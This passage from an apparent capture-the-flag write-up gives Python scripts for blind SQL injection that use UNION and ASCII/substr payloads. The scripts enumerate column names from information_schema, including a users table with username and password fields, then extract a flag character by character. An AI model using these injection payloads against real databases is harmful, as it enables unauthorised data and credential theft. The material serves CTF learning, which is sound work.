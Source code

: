 I thought if nothing worked, we might find something in the logs.

Now, I edited that script to dump the columns of a specified table. 

```python
cols = ['']
total_cols = []
table_name = ''
while len(tables) != 0:
    col = cols[0]
    possibles = []
    for c in "azertyuiopmlkjhgfdsqwxcvbn.,0123456789":
        if 1 == sendPayload("' UNION SELECT column_name, NULL, NULL, NULL, NULL FROM information_schema.columns where table_name='"+table_name+"' and column_name like '"+col+c+"%' LIMIT 1#", 'd'):
            possibles.append(c)
    if len(possibles) != 1:
        del cols[0]
        for poss in possibles:
            cols.append(col+poss)
        if len(possibles) == 0:
            total_cols.append(col)
    else:
        cols[0] = col + possibles[0]
    
    print(cols)
    print('total', total_cols)
```

Going through the tables we had above, we get the following:

* accounts: 'total', 'user', 'host', 'current'
* users: 'email', 'total', 'username', 'password', 'position', 'current', 'company'
* solve: 'flag'

It's clear where we'll be heading now, We dump the solve table.

We can make use of the ascii function to avoid lower/upper case problems. Also it helped me to find some symbols being used in the flag.

Code:

```python
rows = [""]
total_rows = []

while len(rows) != 0:
    row = rows[0]
    possibles = []
    for c in "$#_{-}?!:;-*/+@AZERTYUIOPMLKJHGFDSQWXCVBNazertyuiopmlkjhgfdsqwxcvbn0123456789.,":
        if 1 == sendPayload("' UNION SELECT flag, NULL, NULL, NULL, NULL FROM solve where ASCII(substr(flag,"+str(1+len(rows[0]))+",1)) = ascii('"+c+"') LIMIT 1#", 'd'):
            possibles.append(c)
            break # Only 1 row so don't bother
    
    if len(possibles) != 1:
        del rows[0]
        for poss in possibles:
            rows.append(row+poss)
        if len(possibles) == 0:
            total_rows.append(row)
    else:
        rows[0] = row + possibles[0]
    
    print('rows:', rows)
    print('total:', total_rows)
```
